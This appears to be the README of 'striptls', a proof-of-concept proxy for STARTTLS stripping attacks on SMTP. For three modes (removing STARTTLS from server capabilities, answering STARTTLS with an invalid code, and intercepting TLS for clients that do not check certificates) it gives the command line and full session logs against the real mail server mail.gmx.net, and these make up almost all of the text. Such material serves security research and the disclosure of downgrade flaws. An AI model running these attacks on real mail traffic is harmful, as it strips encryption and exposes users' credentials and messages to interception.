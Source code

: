 # striptls - proxy

poc implementation of STARTTLS stripping attacks

* SMTP
 * SMTP.StripFromCapabilities - server response capability patch
 * SMTP.StripWithInvalidResponseCode - client STARTTLS stripping, invalid response code
 * SMTP.UntrustedIntercept - STARTTLS interception (client and server talking ssl) (requires server.pem in pwd)
 
* XMPP

## Attacks

local smtp-client -> localhost:8825 (proxy) -> mail.gmx.net:25

### Strip STARTTLS from server capabilities

	#> localhost 8825 mail.gmx.net 25 SMTP.StripFromCapabilities
	2016-01-31 15:44:35,000 - INFO     - <Proxy 0x1fe6e70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
	2016-01-31 15:44:35,000 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.StripFromCapabilities at 0x01FE77D8>])}>
	2016-01-31 15:44:37,030 - DEBUG    - <ProtocolDetect 0x1fe6f90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
	2016-01-31 15:44:37,032 - INFO     - <Session 0x1fe6f10> client ('127.0.0.1', 20070) has connected
	2016-01-31 15:44:37,032 - INFO     - <Session 0x1fe6f10> connecting to target ('mail.gmx.net', 25)
	2016-01-31 15:44:39,051 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
	2016-01-31 15:44:40,335 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
	2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250 AUTH LOGIN PLAIN\r\n'
	2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
	2016-01-31 15:44:41,292 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '530 Authentication required\r\n'
	2016-01-31 15:44:41,292 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'rset\r\n'
	2016-01-31 15:44:41,605 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '250 OK\r\n'
	2016-01-31 15:44:41,612 - WARNING  - <Session 0x1fe6f10> terminated.

### Invalid STARTTLS response code

	#> striptls.py localhost 8825 mail.gmx.net 25 SMTP.StripWithInvalidResponseCode
	2016-01-31 15:42:40,325 - INFO     - <Proxy 0x1fefe70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
	2016-01-31 15:42:40,325 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.StripWithInvalidResponseCode at 0x02010730>])}>
	2016-01-31 15:43:19,755 - DEBUG    - <ProtocolDetect 0x1feff90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
	2016-01-31 15:43:19,756 - INFO     - <Session 0x1feff10> client ('127.0.0.1', 20061) has connected
	2016-01-31 15:43:19,756 - INFO     - <Session 0x1feff10> connecting to target ('mail.gmx.net', 25)
	2016-01-31 15:43:21,473 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
	2016-01-31 15:43:22,395 - DEBUG    - <Session 0x1feff10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	2016-01-31 15:43:23,019 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
	2016-01-31 15:43:23,019 - DEBUG    - <Session 0x1feff10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250-STARTTLS\r\n250 STARTTLS\r\n'
	2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server]          'STARTTLS\r\n'
	2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] <= [server][mangled] '200 STRIPTLS\r\n'
	2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server][mangled] None
	2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
	2016-01-31 15:43:23,160 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '530 Authentication required\r\n'
	2016-01-31 15:43:23,160 - DEBUG    - <Session 0x1feff10> [client] => [server]          'rset\r\n'
	2016-01-31 15:43:23,269 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '250 OK\r\n'
	2016-01-31 15:43:23,285 - WARNING  - <Session 0x1feff10> terminated.


### Untrusted SSL Intercept (for clients not checking server cert trust)

	#> striptls.py localhost 8825 mail.gmx.net 25 SMTP.UntrustedIntercept
	2016-01-31 15:55:02,437 - INFO     - <Proxy 0x1ea68f0 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
	2016-01-31 15:55:02,437 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.UntrustedIntercept at 0x01EA5260>])}>
	2016-01-31 15:55:05,234 - DEBUG    - <ProtocolDetect 0x1ea6a10 protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
	2016-01-31 15:55:05,236 - INFO     - <Session 0x1ea6990> client ('127.0.0.1', 20171) has connected
	2016-01-31 15:55:05,236 - INFO     - <Session 0x1ea6990> connecting to target ('mail.gmx.net', 25)
	2016-01-31 15:55:05,848 - DEBUG    - <Session 0x1ea6990> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
	2016-01-31 15:55:06,927 - DEBUG    - <Session 0x1ea6990> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	2016-01-31 15:55:07,181 - DEBUG    - <Session 0x1ea6990> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
	2016-01-31 15:55:07,181 - DEBUG    - <Session 0x1ea6990> [client] => [server]          'STARTTLS\r\n'
	2016-01-31 15:55:07,181 - DEBUG    - <Session 0x1ea6990> [client] <= [server][mangled] '220 Go ahead\r\n'
	2016-01-31 15:55:07,431 - DEBUG    - <Session 0x1ea6990> [client] <= [server][mangled] waiting for inbound SSL Handshake
	2016-01-31 15:55:07,431 - DEBUG    - <Session 0x1ea6990> [client] => [server] 'STARTTLS\r\n'
	2016-01-31 15:55:07,730 - DEBUG    - <Session 0x1ea6990> [client] => [server][mangled] performing outbound SSL handshake
	2016-01-31 15:55:08,483 - DEBUG    - <Session 0x1ea6990> [client] => [server][mangled] None
	2016-01-31 15:55:08,483 - DEBUG    - <Session 0x1ea6990> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	2016-01-31 15:55:08,686 - DEBUG    - <Session 0x1ea6990> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 69920427\r\n250 AUTH LOGIN PLAIN\r\n'
	2016-01-31 15:55:08,706 - DEBUG    - <Session 0x1ea6990> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
	2016-01-31 15:55:08,940 - DEBUG    - <Session 0x1ea6990> [client] <= [server]          '530 Authentication required\r\n'
	2016-01-31 15:55:08,940 - DEBUG    - <Session 0x1ea6990> [client] => [server]          'rset\r\n'
	2016-01-31 15:55:09,167 - DEBUG    - <Session 0x1ea6990> [client] <= [server]          '250 OK\r\n'
	2016-01-31 15:55:09,183 - WARNING  - <Session 0x1ea6990> terminated.

